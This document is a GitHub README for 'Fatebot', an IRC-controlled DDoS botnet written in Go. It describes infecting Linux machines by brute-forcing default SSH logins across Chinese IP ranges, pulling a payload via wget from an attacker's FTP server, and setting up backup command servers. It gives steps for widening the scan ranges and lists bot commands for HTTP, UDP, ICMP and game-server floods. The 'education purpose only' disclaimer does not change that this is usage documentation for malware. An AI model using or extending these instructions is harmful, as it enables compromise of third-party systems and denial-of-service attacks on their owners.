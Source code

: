 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.4.1
This is my first IRC bot for launch DDoS attack. Scan target are anything that run linux, Open default SSH port and Use default username and password. This bot is write on Go language. For education purpose only. Please test it in your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by default SSH port<strong>(Scan on range of CHN network by default. You can add more or change it, If you want.)</strong>
and login by Brute-force attack. This botnet will use "wget" to get payload from FTP server, So... Please prepair your FTP server first, It's very important for infect process.

<strong>I scan on my private netowrk in SSH range.(That's why it's scan and login at The same ip address.)</strong>

	my_ssh_ip = "192.168.57"
	ipGen = append(ipGen, genRange(134, 133), ".")
	
	//Just example of my private scan!!!!

<img src="assets/scanprocess.png" alt="SSH scan">

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of const varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255

(2) Go to "NextIP" function, And add The case for your ip range and return range of your ip.

		case var_name:
				return ManageIP_range(ipRange, GenRange(255, 0))
				
(2.1) In case of The ip range That you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	//The ip range that look like this it will return range of The id since 0 - 255 by default.
	//So... That's mean you don't need to add a case of your ip range.
	

(3) Then go to The "SSH_Conn" function, And add your ip constant to The slice name "NetList".

		NetList := []string{
			ip1, ip2, ip3, ip4, ip5, ip6, ip7, ip8,
			ip9, ip10, ip11, var_name,
		}

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The Application layer</strong>.


<img src="assets/postfloodtraffic.png" alt="http post flood, dos example">

# Build payload
<img src="assets/howtobuild.gif" alt="how to build">

# Update Lists
<p><strong>Fatebot v0.1</strong> = Fatebot open release.</p>
<p><strong>Fatebot v0.2</strong> = Update get bot system information function and Add some tutorial in main and scan file.</p>
<p><strong>Fatebot v0.2.1</strong> = Cut private scanning and OS signal by change it to self remove when running. And change some IRC commands that will type easier.</p>
<p><strong>Fatebot v0.2.2</strong> = Cut scan failed report for fix server overheat and excess flood, 
  And Optimize by change ip range and default ping time, That will help to find SSH port faster.(Maybe, But fast than old one.)</p>
<p><strong>Fatebot v0.3</strong> = Update new DDoS Vector. Set size of UDP packet to 700 as default when bot herder input The over size.</p>
<p><strong>Fatebot v0.3.1</strong> = Fix vse and post flood. Fix IRC configuration that will make a little easy to config and change project layout.</p>
<p><strong>Fatebot v0.4</strong> = Update IRC Backup Server configuration for Backup our bots When The Main IRC Server got shutdown by accident. Add and remove some feature of info function.</p>
<p><strong>Fatebot v0.4.1</strong> = Change curl to wget, Add more Default IP range, Config some assets and tutorial. Re-Write a shit code and Fix post flood.</p>

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?vse [ip]</li></strong>
    <ul>
      <li>?vse 192.168.1.16</li>
      - Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To the target server that used to host online games.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range(By default.) on SSH port and get payload with wget.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information, For bot analysis.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Bot self-close.
    </ul>
</ul>

<ul>
  <li><strong>?stopddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stopscan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
